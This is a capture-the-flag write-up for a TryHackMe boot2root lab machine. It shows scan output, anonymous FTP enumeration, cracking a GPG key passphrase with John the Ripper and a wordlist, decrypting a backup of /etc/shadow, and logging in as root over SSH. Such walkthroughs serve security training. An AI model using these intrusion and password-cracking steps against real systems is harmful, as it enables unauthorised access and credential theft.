 ```yaml
---
layout: post
title: Anonforce
subtitle: Boot2root machine for FIT and bsides guatemala CTF
thumbnail-img: https://tryhackme-images.s3.amazonaws.com/room-icons/eef338293d4a928420f1603870699e75.jpeg
categories: THM
---
```


Boot2root machine for FIT and bsides guatemala CTF

Deploy the machine and let it start for a couple of minutes before starting...

## Reconnaissance

Scanning the machine shows the following ports open, which are NOT web based. This is different compared to many other boot2root machines and challenges.

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-09 13:33 EST
Nmap scan report for 10.10.45.210
Host is up (0.036s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 bin
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 boot
| drwxr-xr-x   17 0        0            3700 Feb 09 10:22 dev
| drwxr-xr-x   85 0        0            4096 Aug 13  2019 etc
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 home
| lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img -> boot/initrd.img-4.4.0-157-generic
| lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img.old -> boot/initrd.img-4.4.0-142-generic
| drwxr-xr-x   19 0        0            4096 Aug 11  2019 lib
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 lib64
| drwx------    2 0        0           16384 Aug 11  2019 lost+found
| drwxr-xr-x    4 0        0            4096 Aug 11  2019 media
| drwxr-xr-x    2 0        0            4096 Feb 26  2019 mnt
| drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 notread [NSE: writeable]
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 opt
| dr-xr-xr-x   94 0        0               0 Feb 09 10:22 proc
| drwx------    3 0        0            4096 Aug 11  2019 root
| drwxr-xr-x   18 0        0             540 Feb 09 10:22 run
| drwxr-xr-x    2 0        0           12288 Aug 11  2019 sbin
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 srv
| dr-xr-xr-x   13 0        0               0 Feb 09 10:22 sys
|_Only 20 shown. Use --script-args ftp-anon.maxlist=-1 to see all.
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.3.178
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:f9:48:3e:11:a1:aa:fc:b7:86:71:d0:2a:f6:24:e7 (RSA)
|   256 73:5d:de:9a:88:6e:64:7a:e1:87:ec:65:ae:11:93:e3 (ECDSA)
|_  256 56:f9:9f:24:f1:52:fc:16:b7:7b:a3:e2:4f:17:b4:ea (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/
Nmap done: 1 IP address (1 host up) scanned in 2.67 seconds

```
It looks like there is a nice way in that allows an anonymous user to see all the folders in the system. However, taking a look at the permissions, not all of them can be read, like the `root` folder, which is to be expected. 

I wonder how will it be to find some credentials!

## Compromise the machine

Let's breach by connecting to that nice FTP on port 21.

```
ftp 10.10.45.210
Connected to 10.10.45.210.
220 (vsFTPd 3.0.3)
Name (10.10.45.210:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||14450|)
150 Here comes the directory listing.
drwxr-xr-x   23 0        0            4096 Aug 11  2019 .
drwxr-xr-x   23 0        0            4096 Aug 11  2019 ..
drwxr-xr-x    2 0        0            4096 Aug 11  2019 bin
drwxr-xr-x    3 0        0            4096 Aug 11  2019 boot
drwxr-xr-x   17 0        0            3700 Feb 09 10:22 dev
drwxr-xr-x   85 0        0            4096 Aug 13  2019 etc
drwxr-xr-x    3 0        0            4096 Aug 11  2019 home
lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img -> boot/initrd.img-4.4.0-157-generic
lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img.old -> boot/initrd.img-4.4.0-142-generic
drwxr-xr-x   19 0        0            4096 Aug 11  2019 lib
drwxr-xr-x    2 0        0            4096 Aug 11  2019 lib64
drwx------    2 0        0           16384 Aug 11  2019 lost+found
drwxr-xr-x    4 0        0            4096 Aug 11  2019 media
drwxr-xr-x    2 0        0            4096 Feb 26  2019 mnt
drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 notread
drwxr-xr-x    2 0        0            4096 Aug 11  2019 opt
dr-xr-xr-x   91 0        0               0 Feb 09 10:22 proc
drwx------    3 0        0            4096 Aug 11  2019 root
drwxr-xr-x   18 0        0             540 Feb 09 10:22 run
drwxr-xr-x    2 0        0           12288 Aug 11  2019 sbin
drwxr-xr-x    3 0        0            4096 Aug 11  2019 srv
dr-xr-xr-x   13 0        0               0 Feb 09 10:22 sys
drwxrwxrwt    9 0        0            4096 Feb 09 10:22 tmp
drwxr-xr-x   10 0        0            4096 Aug 11  2019 usr
drwxr-xr-x   11 0        0            4096 Aug 11  2019 var
lrwxrwxrwx    1 0        0              30 Aug 11  2019 vmlinuz -> boot/vmlinuz-4.4.0-157-generic
lrwxrwxrwx    1 0        0              30 Aug 11  2019 vmlinuz.old -> boot/vmlinuz-4.4.0-142-generic
226 Directory send OK.
ftp>
```
There is one folder that should allow us to find something reeeally interesting - the `notread` folder. This is not a folder that is usually found in Linux machines. Let's make sure to also take a look at `home` to find what's hiding there.

```
ftp> ls home
229 Entering Extended Passive Mode (|||58192|)
150 Here comes the directory listing.
drwxr-xr-x    4 1000     1000         4096 Aug 11  2019 melodias
226 Directory send OK.
ftp> ls home/melodias
229 Entering Extended Passive Mode (|||20866|)
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000           33 Aug 11  2019 user.txt
226 Directory send OK.
ftp>
```

Get that `user.txt`!

Looking into `notread` shows two interesting files.

```
ftp> ls notread
229 Entering Extended Passive Mode (|||53739|)
150 Here comes the directory listing.
-rwxrwxrwx    1 1000     1000          524 Aug 11  2019 backup.pgp
-rwxrwxrwx    1 1000     1000         3762 Aug 11  2019 private.asc
226 Directory send OK.
ftp>
```

Download those files. It looks like an encrypted backup with it's key to open it.

A first test shows that the key needs a password to be able to import it as a `gpg` key in the system.

There 's one nice person that can be asked... JOHN!

Start with converting the `private.asc` into something readable by John.

```
gpg2john private.asc > key                                                                         

File private.asc
```
Checking the file, shows the hash of the key.

```
cat key       
anonforce:$gpg$*17*54*2048*e419ac715ed55197122fd0acc6477832266db83b63a3f0d16b7f5fb3db2b93a6a995013bb1e7aff697e782d505891ee260e957136577*3*254*2*9*16*5d044d82578ecc62baaa15c1bcf1cfdd*65536*d7d11d9bf6d08968:::anonforce <melodias@anonforce.nsa>::private.asc
```

Now fire up John to crack the password.

```
john --wordlist=/usr/share/wordlists/rockyou.txt key 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xbox360          (anonforce)     
1g 0:00:00:00 DONE (2022-02-09 14:08) 11.11g/s 10333p/s 10333c/s 10333C/s xbox360..sheena
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Now import the key!

```
gpg: key B92CD1F280AD82C2: secret key imported
gpg: key B92CD1F280AD82C2: "anonforce <melodias@anonforce.nsa>" not changed
gpg: Total number processed: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
```

Perfect! Now let's open that backup with the nice password. Looks like the backup is for the `/etc/shadow` file, which is great news for those credentials that we didn't have.

Fantastic!

```
ssh root@10.10.45.210        
The authenticity of host '10.10.45.210 (10.10.45.210)' can't be established.
ED25519 key fingerprint is SHA256:+bhLW3R5qYI2SvPQsCWR9ewCoewWWvFfTVFQUAGr+ew.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.45.210' (ED25519) to the list of known hosts.
root@10.10.45.210's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-157-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

root@ubuntu:~# ls
root.txt
```

boot2root exploited!
